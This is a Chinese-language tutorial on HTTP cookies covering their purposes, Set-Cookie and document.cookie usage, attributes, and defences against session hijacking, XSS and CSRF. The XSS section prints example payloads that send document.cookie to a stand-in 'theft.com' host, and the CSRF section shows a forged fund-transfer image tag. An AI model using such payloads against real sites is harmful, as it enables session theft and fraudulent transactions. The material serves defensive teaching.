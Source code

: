 ## Cookie用途

**记录会话**

  我们都知道http为无状态协议，即使客户端C上一次请求A告诉服务端S他是谁，下一次请求B到服务端S时，服务端S依然不知道是谁在访问，所以需要一个记录来跟踪用户登录状态，最常用的就是Cookie了，现在也有很多不传送cookie，走http headers进行认证，这样的话可以减少传送一些客户端才需要使用的cookie，节省带宽，而且更安全

**行为分析**

  通过cookie去跟踪用户的轨迹和使用情况，分析这些这些数据，（用户浏览了什么页面和内容/什么时候访问的/在当前页面停留多久/浏览最多的页面/查询最多的关键词等），从而可以定向精准的投放广告服务或者个性化服务，例如谷歌搜索，会记录你每次的搜索关键词，向你推荐相关关键词，了解你的兴趣爱好

## Cookie设置
cookie的设置方式又2种，第一种是由服务端的响应头中添加Set-Cookie，该响应头可以有多个同时存在，如
```js   
HTTP/1.1 200 OK
Content-type: text/html
Set-Cookie: theme=light
Set-Cookie: sessionToken=abc123; Expires=Wed, 09 Jun 2021 10:18:14 GMT; httponly
```
第二种在客户端通过js进行设置，如
```js
document.cookie='cookieName=cookieValue; expires=Tue, 06 Apr 2021 11:46:35 GMT; path=/; domain=xxx.com; secure;samesite=strict'
```
#### 属性说明

- **expires** => 值为GMT时间字符表示过期的日期点，可以设置该值为过去日期来删除该cookie<br>

- **maxage** => 表示过期的时间长度，单位为S<br>

- **path** => 限制cookie在该路径下，只能在该路径下才能发送<br>

- **domain** => 限制cookie在该域下，可以在该域和子域下发送，如果没有设置则只在该域下发送<br>

- **secure** => 限制只能在https下加密传输<br>

- **samesite** => 控制跨域下请求是否发送cookie,有三个值，分别为none(可以),strict（只在同域下发送站点）,lax（和strict差不多，不过只能通过link这种外部导航方式进入才会发送），默认为lax<br>

- **httponly** => 只通过http暴露cookie,这就表示不能通过js脚本document.cookie设置和访问<br>

#### 注意事项
`1. 没有设置expires或者maxage则默认为会话cookie，浏览器关闭之后则消失，反之为持久cookie`<br>

`2. 没有设置domain或者path则默认只能在当前域或路径下传送cookie`<br>

`3. 删除时，domain和path需要该cookie一致`<br>

`4. httponly只能通过服务端Set-Cookie设置`<br>

`5. 同源策略-不能设置和获取其他域的cookie`<br>
## Cookie安全
### SessionHijacking（会话劫持）
在客户端和服务端之间进行cookie的传输时，网络上的流量可以被发送方以外的网络上的计算机拦截和读取，特别是在未加密开放式的wifi上，通过拦截到的cookie来冒充用户发起恶意行为<br>

- 可以使用https加密传输，同时设置secure只能通过https进行传输<br>
- 随机方式生成会话，或者基于用户信息+时间+ip地址生成会话
### XSS（跨站脚本攻击）
在客户端执行了没有经过过滤的恶意代码将cookie发送到第三方服务器上，即使cookie添加了secure，如果第三方服务器启用了https，一样会被发送,如下代码
```js
 (new image()).src='https://theft.com/transparent.jpg?cookie='+document.cookie;
```
```html
<a href="#" onclick="window.location = 'http://theft.com/stole?cookie=' + encodeURIComponent(document.cookie); return false;">点击</a>
```
**1.杜绝源头**

- 存储时进行转义
- 不要引用来自不受信任域的js文件

**2.执行控制**

- 在输出时先对内容（来自url参数或者ajax）进行转义如（ & < > " ' / javascript:）
- 注意使用eval()、setTimeout()、setInterval()、innerHTML、document.write()等可以执行字符串的代码
- 由服务端通过Set-Cookie设置httponly，使document.cookie无法获取
### CSRF（跨站请求伪造）
代表用户发起一个伪造的请求，假如在一个没有做输入过滤的论坛上接收到一个消息，该消息为如下代码
```html
<img src="http://bank.com/withdraw?account=you&amount=1000000&for=attacker">
```
如果此时你正好登录了bank.com且cookie有效，那该条消息会携带cookie向银行服务器发送一个转账的请求，银行通过cookie发现有效，则会执行转账操作

- 尽量减少敏感cookie失效时间
- 设置SameSite为lax同源策略，跨域时cookie不会被发送
- 敏感请求应该提供再次确认，如收到该请求后告知前端需要滑块验证或者输入用户信息，通过后回传才能继续执行
- 通过请求头origin或者referrer验证请求来源，且改用post方式（虽然请求头可以伪造，但是可以抵挡部分虚假和get请求）
- 不通过cookie进行认证，可添加一个自定义请求头进行认证，其值为动态生成的随机字符串
- 输入和输出过滤
- 在请求中添加cookie对应的token，对比请求中的token和cookie是否一致（cookie同源策略-伪造者不能设置和获取其他域的cookie到token中）
